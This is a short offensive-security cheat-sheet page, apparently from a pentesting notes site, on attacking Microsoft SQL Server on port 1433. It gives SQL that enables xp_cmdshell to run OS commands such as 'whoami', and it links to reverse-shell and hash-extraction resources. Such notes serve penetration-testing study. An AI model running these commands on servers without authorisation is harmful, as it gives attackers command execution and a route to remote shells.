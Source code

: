# 1433 - MSSQL

## Connect to MSSQL from Kali

{% page-ref page="../../tools/tools/mssqlclient.py-impacket.md" %}

## MSSQL for PrivEsc

```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
-----------
          1

EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;

EXEC sp_configure 'xp_cmdshell', 1
reconfigure;

xp_cmdshell "whoami"
```

{% hint style="info" %}
Compare the following syntax \(note the `;)`

* `EXEC xp_cmdshell "whoami";`
* `xp_cmdshell "whoami"`
{% endhint %}

{% page-ref page="../../collections/reverse-shell/powershell.md" %}

## MSSQL System Databases

Documentation: [https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sqlallproducts-allversions](https://docs.microsoft.com/en-us/sql/relational-databases/databases/system-databases?view=sqlallproducts-allversions)

To restore backups \(.bak\) or read database files \(.mdf and .ldf\) offline: 

* [https://blog.xpnsec.com/extracting-master-mdf-hashes/](https://blog.xpnsec.com/extracting-master-mdf-hashes/)
* [https://rastating.github.io/from-lfi-to-sql-database-backup/](https://rastating.github.io/from-lfi-to-sql-database-backup/)

